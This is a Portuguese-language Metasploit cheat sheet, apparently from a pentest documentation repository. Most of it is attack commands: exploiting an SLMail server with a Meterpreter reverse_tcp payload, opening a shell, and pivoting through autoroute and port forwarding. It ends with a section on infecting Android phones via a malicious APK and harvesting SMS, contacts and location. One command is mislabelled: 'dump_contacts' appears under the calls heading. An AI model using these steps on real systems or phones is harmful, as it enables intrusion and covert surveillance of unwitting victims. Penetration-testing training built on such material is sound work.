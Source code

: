 # MetaSploit Framework

Ferramenta desenvolvida pela rapid7.com para auxiliar na criação e utilização de exploits.

---

Iniciando o BD para o MSF:

```bash
msfdb init
```

---

Iniciando MSF:

```bash
service postgresql start  
msfconsole
```

---

Comando de ajuda:

```msf
msf > help
```

---

Verificando a conexão com o banco de dados:

```msf
msf > db_status
```

---

Escaneamento de alvo salvando as informações no DB:

```msf
msf > db_nmap -A 172.16.1.4
```

---

Importando arquivo XML do NMAP:

```bash
nmap -v -A 172.16.1.5 -oX host5.xml  
msf > db_import host5.xml
```

---

Listagem dos hosts:

```msf
msf > hosts
```

---

Verificando vulnerabilidade nos hosts:

```msf
msf > vulns
```

---

Listagem de serviços:

```msf
msf > services
```

---

Buscando exploit:

```msf
msf > search slmail
```

---

Usando exploit:

```msf
msf > use exploit/windows/pop3/seattlelab_pass
```

---

Ver informações do exploit:

```msf
msf exploit(seattlelab_pass) > info
```

---

Setando parâmetros no exploit:

```msf
msf exploit(seattlelab_pass) > show options  
msf exploit(seattlelab_pass) > set RHOST 172.16.1.4  
msf exploit(seattlelab_pass) > show options
```

---

Verificando payloads disponíveis:

```msf
msf exploit(seattlelab_pass) > show payloads
```

---

Setando payload para ser utilizado:

```msf
msf exploit(seattlelab_pass) > set payload windows/meterpreter/reverse_tcp  
msf exploit(seattlelab_pass) > show options  
msf exploit(seattlelab_pass) > set LHOST 172.20.0.2  
msf exploit(seattlelab_pass) > set LPORT 4444  
msf exploit(seattlelab_pass) > show options
```

---

Executando exploit:

```msf
msf exploit(seattlelab_pass) > exploit  
meterpreter > ipconfig
```

---

Verificando comandos no meterpreter:

```msf
meterpreter > help
```

---

Abrindo o shell:

```msf
meterpreter > shell
```

---

Colocando meterpreter em segundo plano:

```msf
meterpreter > background
```

---

Retomando meterpreter:

```msf
msf > session -i 4
```

---

Exibindo módulos auxiliares:

```msf
msf > show auxiliary
```

---

Utilizando um módulo auxiliar:

```msf
msf > use auxiliary/scanner/smb/smb_version  
msf > show options  
msf > set RHOSTS 172.16.1.5  
msf > run
```

---

Criando rota da rede do alvo para a nossa máquina:

```msf
meterpreter > run autoroute -s 192.168.0.0/24
```

---

Criando redirecionamento de porta do alvo para a nossa máquina:

```msf
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.0.101
```

Output: ``[*] Local TCP relay created: 0.0.0.0:3389 >-> 192.168.0.101:3389``

---

## Infectando Android com APK malicioso

1- Configure o MSF para receber conexão reversa:

```msf
msf > use exploit/multi/handler
msf exploit(handler) > set payload android/meterpreter/reverse_tcp
msf exploit(handler) > set lport 443
msf exploit(handler) > set lhost 192.168.0.111
msf exploit(handler) > exploit
```

2- Gere o APK malicioso:

Para gerar o APK malicioso siga o seguinte [link](https://github.com/BlackCat-Pentest/Linux-Docs/blob/master/Docs/msfvenom.md).

3- Depois de instalado o APK malicioso no celular, o **meterpreter** será aberto e haverá várias opções de comandos que conseguimos listar com o comando **help**.

Coleta de SMS:

```msf
meterpreter > dump_sms
```

Verificando geolocalização:

```msf
meterpreter > geolocate
```

```msf
meterpreter > wlan_geolocate
```

*A opção **wlan_geolocate** verifica a localização com base na rede e não possui tanta precisão.*

Verificando se o aparelho possui o usuário root ativado:

```msf
meterpreter > check_root
```

Verificando as ligações:

```msf
meterpreter > dump_contacts
```

Verificando os contatos:

```msf
meterpreter > dump_contacts
```
